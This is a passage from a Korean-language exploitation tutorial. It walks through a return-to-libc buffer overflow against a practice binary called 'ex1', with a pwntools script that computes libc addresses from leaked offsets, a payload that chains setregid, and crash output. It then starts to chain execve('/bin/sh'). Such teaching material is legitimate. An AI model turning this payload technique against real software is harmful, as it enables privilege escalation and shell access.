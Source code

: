 
이것을 python payload로 만들어볼까요? `setregid`의 주소를 바로 알수 있습니까? 아직은 아닙니다. 왜냐하면 프로세스에서 알려준 system함수 주소를 parsing하는 routine이 없기 때문입니다. 간단한 python프로그램을 만들어 보면 아래와 같습니다. 필요한 주소도 미리 계산된 offset을 이용하여 계산할 수 있습니다. 그리고 payload를 만들어서 보내봅시다. 참고로 pwntools의 `p32()`는 little endian 형식 4바이트로 packing해주는 함수입니다. 예를들어 `p32(0)`이라고 표시하면 0 대신 0x00000000을 보내줍니다.


```python

from pwn import *

p = process("./ex1")
out = p.recv()

address = {}
for l in out.splitlines():
    if not ":" in l:
        continue
    k, v = l.split(":")
    k = k.replace("()", "").strip()
    v = int(v, 16)
    address[k] = v


SYSTEM_OFFSET   = 0x41790
EXECVE_OFFSET   = 0xc9500
SETREGID_OFFSET = 0xfc480
BINSH_OFFSET    = 0x18e363

LIBC_BASE     = address['system'] - SYSTEM_OFFSET
EXECVE_ADDR   = LIBC_BASE + EXECVE_OFFSET
SETREGID_ADDR = LIBC_BASE + SETREGID_OFFSET
BINSH_ADDR    = LIBC_BASE + BINSH_OFFSET

PAYLOAD = "A" * 44 + p32(SETREGID_ADDR) + "BBBB" + p32(0x0) + p32(0x0)
p.sendline(PAYLOAD)
p.recv()
```

위 payload를 만들었습니다. 어떤일이 발생했나요? 뭔가 segmentation fault가 났지요? 우리가 setregid 함수가 실행된 이후 리턴할 것으로 예상한 "BBBB" (0x42424242)로 리턴을 해서 crash가 발생했다는 것을 알 수 있습니다. 이제 첫번째 함수는 실행했습니다. 다음으로 execve("/bin/sh", 0, 0)이 연달아 실행되도록 할까요?

```sh
$ dmesg

...
[ 3377.482135] ex1[2110]: segfault at 42424242 ip 0000000042424242 sp 00000000ffd461f4 error 14 in libc-2.31.so[f7d0e000+19000]
```

### execve("/bin/sh", 0, 0) 호출


아래의 그림을 봅시다. execve가 실행될때의 return주소와 인자는 뭐가 될까요? 정답은 execve() 바로 위에 있는 1002가 return 주소가 될 것이고, 그 위에 있는 1002가 첫번째 인자값이 되는 것입니다. 그렇다면 여러분이 원하는 인자값을 제공하면서 execve()를 실행할 수 있을까요?
